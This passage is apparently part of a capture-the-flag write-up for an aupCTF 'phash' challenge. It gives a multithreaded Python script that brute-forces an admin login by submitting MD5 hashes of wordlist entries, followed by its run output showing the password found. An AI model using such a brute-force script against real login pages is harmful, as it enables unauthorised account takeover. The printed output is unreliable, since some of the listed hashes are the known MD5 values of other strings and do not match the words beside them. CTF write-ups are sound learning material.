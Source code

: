 ```bash

    return render(request, 'phash.html')
```

We can use a Python script to automatically try different passwords on a login page. we'll use "admin" as the username as given in the source code and the MD5 hash of each word in marvel.txt as the password. it'll keep trying different passwords until we find the correct one. To speed up the process, we can use multiple threads to handle multiple attempts at the same time.

**here is a simple script that will do the job**

```bash
import hashlib
import requests
from concurrent.futures import ThreadPoolExecutor

def check_password(password):
    username = "admin"
    url = "https://challs.aupctf.live/phash/"

    password = password.strip()
    password_hash = hashlib.md5(password.encode()).hexdigest()

    payload = {
        "username": username,
        "password": password_hash
    }

    response = requests.post(url, data=payload)
    print("Trying... "+password+" hash: "+password_hash)

    if "aupCTF" in response.text:
        print("Password found:", password)

def bruteforce_login():
    with open("list.txt", "r", encoding="utf-8", errors="ignore") as wordlist:
        passwords = wordlist.readlines()

    with ThreadPoolExecutor() as executor:
        executor.map(check_password, passwords)

bruteforce_login()
```

**Result**

```bash
┌──(kali㉿iasad)-[~/CTFs/aupctf/phash]
└─$ python script.py
-------MORE-------
Trying... electro hash: 827ccb0eea8a706c4c34a16891f84e7b
Trying... sandman hash: f25a2fc72690b780b2a14e140ef6a9e0
Trying... gwen hash: 25f9e794323b453885f5181f1b624d0b
Trying... silverserfer hash: e10adc3949ba59abbe56e057f20f883e
Trying... ghostrider hash: f4f068e71e0d87bf0ad51e6214ab84e9
Trying... nebula hash: 53dd9c6005f3cdfc5a69c5c07388016d
Trying... hulk hash: 74d738020dca22a731e30058ac7242ee
Trying... wanda hash: 4297f44b13955235245b2497399d7a93
Password found: mephisto
Trying... wintersolder hash: d177b4d1d9e6b6fa86521e4b3d00b029
Trying... ironman hash: 596a96cc7bf9108cd896f33c44aedc8a
```
